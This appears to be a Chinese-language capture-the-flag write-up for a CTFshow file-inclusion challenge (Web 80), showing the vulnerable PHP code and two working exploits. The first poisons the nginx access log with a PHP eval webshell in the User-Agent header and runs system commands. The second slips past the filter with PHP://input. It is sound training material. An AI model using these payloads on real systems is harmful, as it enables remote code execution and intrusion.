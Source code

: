 # CTFshow 文件包含

**题目范围：Web78 - Web88 | Web116 - Web117**





## Web 80

代码如下：

```php
<?php
if (isset($_GET['file'])) {
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
} else {
    highlight_file(__FILE__);
}
?>
```

本关过滤了php和data应该是不允许使用伪协议，但是可以正常包含，采用包含日志文件的方式。

日志文件中包含了 url以及ua信息等，这里ua最容易控制，抓包改ua，写入一句话即可。如下第三行

```http
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: 4e9bb3c0-1021-427e-81a3-42e5e6e13c39.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0<?php eval($_GET[2]);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: UM_distinctid=17ffcdc88eb73a-022664ffe42c5b8-13676d4a-1fa400-17ffcdc88ec82c
Connection: close
```

可以直接命令执行即可也可以用webshell后门工具连接

```
?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();
?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();
```

寻找PHPinfo信息前面的那一段信息即可找到



**另一种方法：**

对于php 和data 已经被过滤掉了，所以都不能用，但是用POST 的方法，还能用，为了不被过滤，php://input 改成PHP://input

GET方法改为POST方法最后添加一行，内容是需要包含的php代码。执行为：

/?file=PHP://input HTTP/1.1

POST数据部分：<?php system('ls *.php');?>



